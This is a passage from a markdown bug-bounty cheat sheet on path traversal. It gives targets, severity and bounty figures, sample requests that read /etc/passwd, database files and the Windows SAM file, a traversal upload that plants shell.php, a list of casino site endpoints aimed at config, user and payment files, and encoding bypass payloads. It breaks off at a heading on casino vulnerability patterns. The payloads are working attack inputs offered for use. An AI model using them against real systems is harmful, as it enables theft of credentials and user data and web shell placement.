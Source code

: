 
### 10. **Path Traversal**

**Target:** IBM Cloud, curl SFTP  
**Severity:** CRITICAL  
**CVSS:** 8.5+  
**Bounty:** $2,000-$8,000

**Vulnerability Patterns:**

1. **File Download**
```http
GET /api/download?file=../../../../etc/passwd
GET /api/export?path=../../database/users.db
```

2. **File Upload**
```http
POST /api/upload
Content-Disposition: form-data; name="file"; filename="../../public/shell.php"
```

3. **Template Rendering**
```http
GET /api/render?template=../../../../admin/config
```

**Casino-Specific Targets:**
```
/api/games/download?asset=../../../../config/database.yml
/api/user/avatar?path=../../../../../../etc/passwd
/api/reports/export?file=../../../backup/users.sql
/api/logs/view?log=../../../../var/log/payments.log
```

**Bypass Techniques:**
```
# URL encoding
..%2F..%2F..%2Fetc%2Fpasswd

# Double encoding
..%252F..%252F..%252Fetc%252Fpasswd

# Unicode
..%c0%af..%c0%af..%c0%afetc/passwd

# Null byte (PHP < 5.3)
../../../../etc/passwd%00.jpg

# Windows
..\..\..\..\windows\system32\config\sam
```

---

## 🎰 Casino-Specific Vulnerability Patterns
